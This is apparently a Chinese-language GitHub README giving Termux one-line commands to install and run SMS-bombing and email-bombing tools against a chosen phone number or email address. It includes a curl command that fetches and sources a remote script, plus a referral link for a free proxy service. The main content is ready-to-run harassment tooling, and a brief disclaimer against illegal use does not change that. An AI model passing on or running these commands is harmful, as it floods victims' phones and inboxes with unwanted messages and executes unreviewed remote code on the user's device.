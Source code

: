 # 概述
  
免费机场[这里](https://glados.space/landing/6FLMR-A44DY-TWEHO-11MET)
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)


- 假如你在代码使用的过程中出现类似于的选项。
>Do you want to continue? [Y/n]
>
- 直接回车enter即可

# 一键代码使用
   ## 短信轰炸
  
  `source <(curl -L https://raw.githubusercontent.com/cat-bucket/cat-osint/main/sms.txt)`
- 直接粘贴代码进入即可，后续可以直接使用下列指令（不要更新接口）
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱




# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令可能造成的事故与损失，短信轰炸并不安全，警遵中国法律。


